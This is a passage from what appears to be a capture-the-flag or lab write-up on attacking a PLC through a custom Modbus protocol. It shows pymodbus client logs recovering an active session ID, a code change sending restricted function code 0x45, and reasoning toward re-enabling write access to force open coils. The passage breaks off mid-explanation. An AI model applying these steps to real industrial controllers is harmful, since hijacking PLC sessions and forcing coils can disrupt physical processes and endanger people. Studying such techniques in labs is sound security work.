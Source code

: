We will get the following result:
```
python3 client.py

<SNIP>

ERROR: PLC Already Reserved
['0xe0', '0x6'] e006
Connected to the server
DEBUG:pymodbus.logging:Current transaction state - TRANSACTION_COMPLETE
DEBUG:pymodbus.logging:Running transaction 153
DEBUG:pymodbus.logging:SEND: 0x0 0x99 0x0 0x0 0x0 0x4 0x0 0x66 0x98 0x10
DEBUG:pymodbus.logging:New Transaction state "SENDING"
DEBUG:pymodbus.logging:Changing transaction state from "SENDING" to "WAITING FOR REPLY"
DEBUG:pymodbus.logging:Changing transaction state from "WAITING FOR REPLY" to "PROCESSING REPLY"
DEBUG:pymodbus.logging:RECV: 0x0 0x99 0x0 0x0 0x0 0x7 0x0 0x66 0x98 0x10 0xff 0xe0 0x7
DEBUG:pymodbus.logging:Processing: 0x0 0x99 0x0 0x0 0x0 0x7 0x0 0x66 0x98 0x10 0xff 0xe0 0x7
DEBUG:pymodbus.logging:Factory Response[CustomProtocolResponse': 102]
DEBUG:pymodbus.logging:Adding transaction 153
DEBUG:pymodbus.logging:Getting transaction 153
DEBUG:pymodbus.logging:Changing transaction state from "PROCESSING REPLY" to "TRANSACTION_COMPLETE"
ERROR: PLC reservation already completed
['0xe0', '0x7'] e007
Current Session ID: 152 (0x98)
```

As we can observe the error message changes to `ERROR: PLC reservation already completed` for the `Session ID: 152 (0x98)`.

2. Using one of the restricted commands 0x45, by changing only two lines::

```python
# <SNIP>
custom_code = 0x45
# <SNIP>
        if data != [0xe0, 0x08]:
# <SNIP>
```

We get a response similar to the one in the PCAP once we find the active Session ID:

```
python3 client.py

<SNIP>
ERROR: Invalid or expired session!
['0xe0', '0x8'] e008
<SNIP>
['0x1'] 01
Current Session ID: 152 (0x98)
```

### Interacting with restricted function codes

Now that we have the active session we can send the restricted commands. we know two of them are the `Start PLC` and `Disable write access via Modbus to the PLC`. Our objective is to enable the write access to force open the coils. We know from the provided notes that similar functions are grouped together like take_reservation and release_reservation. This means that the `Stop PLC` and also `Enable write access via Modbus to the PLC` must have a function code (command ID) right before or after their counterparts. From the three restricted function codes we have one of them (0x11) appears to be paired with the take_reservation (0x10). This leaves two more function codes that must correspond to the `Start PLC` and `Disable write access commands` (0x45, 0x53). We can send the following packets to find any commands close to them:

